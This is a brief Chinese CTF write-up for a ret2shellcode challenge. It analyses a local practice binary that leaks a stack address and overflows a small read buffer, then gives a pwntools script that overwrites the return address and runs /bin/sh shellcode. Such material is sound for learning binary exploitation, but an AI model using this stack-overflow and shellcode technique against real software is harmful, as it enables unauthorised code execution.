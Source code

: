 #### ret2shellcode
1.  分析过程
    查看main函数：
    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        __int64 buf[2]; // [rsp+0h] [rbp-10h] BYREF

        buf[0] = 0LL;
        buf[1] = 0LL;
        setvbuf(_bss_start, 0LL, 1, 0LL);
        printf("Write to here [%p]\n", buf);    // 直接给了buf的地址
        puts("Input anything : ");
        read(0, buf, 0x400uLL);                 // 注入点
        return 0;
    }   
    ```
    查看没有system函数，也没有后面字符串，但是NX没开，可以输入shellcode  
    查看buf的栈结构，发现buf和r之间只有0x10+0x8位，可以溢出覆盖返回地址，但是不足以塞下shellcode，于是考虑将shellcode塞在r后面，将返回地址塞在返回地址后面，返回地址的值用buf地址+增量0x10+0x8+0x8计算得出。
    ```
    -0000000000000010 buf             dq ?
    -0000000000000008 var_8           dq ?
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?)
    +0000000000000010 ; 将shellcod塞在这里（但是为什么能塞得下我还不清楚）
    +0000000000000010 ; end of stack variables
    ```
2. exp.py
    ```python
    from pwn import *
    io = process('./pwn')
    buf_addr = io.recvline(keepends=False)      
    buf_addr = buf_addr[len("Write to here ["):-1].decode("ascii")  # 把接收到的byte格式地址转换成string
    buf_addr = int(buf_addr, 16)                                    # 转换16进制string为数字
    ret_addr = buf_addr + (0x10+0x8+0x8)                            # 返回地址 = buf地址+增量，包含r长度
    shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
    payload = b"a"*(0x10+0x8) + p64(ret_addr) + shellcode           # 填充位 + 返回地址 + shellcode，填充位不包含r长度
    io.recvuntil(b"Input anything : \n")
    io.sendline(payload)
    io.interactive() 
    ```
